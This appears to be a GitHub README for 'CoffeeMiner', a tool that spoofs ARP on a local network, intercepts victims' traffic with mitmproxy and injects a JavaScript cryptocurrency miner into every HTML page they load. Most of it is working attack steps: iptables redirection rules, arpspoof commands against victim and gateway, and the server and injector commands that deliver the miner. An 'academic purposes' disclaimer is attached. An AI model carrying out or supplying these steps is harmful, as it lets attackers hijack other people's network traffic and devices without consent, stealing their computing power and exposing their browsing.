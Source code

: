 # CoffeeMiner

Collaborative Coffee Mining Pool.

**Warning: this project is only with academic purposes.**


## Concept
- Performs a MITM attack
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- run.py
```
python run.py ipgateway
```




---



#### Manual use
- needs to have installed **mitmproxy**
    https://mitmproxy.org/
    - installation:
    ```
        sudo apt-get install python3-dev python3-pip libffi-dev libssl-dev

        pip3 install --user mitmproxy
    ```

- needs python 3.*


- configure IPTABLES

```
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

- arpspoof to the victims
```
arpspoof -i eth0 -t <victim_ip> <gateway_ip>
arpspoof -i eth0 -t <gateway_ip> <victim_ip>
```
- execute the httpServer.py that will serve the script.js that contains the minner:
```
python httpServer.py
```

- execute the mitmproxy with the injector.py script:
```
#~/.local/bin/mitmdump -s "injector.py http://127.0.0.1:8000/script.js"
```
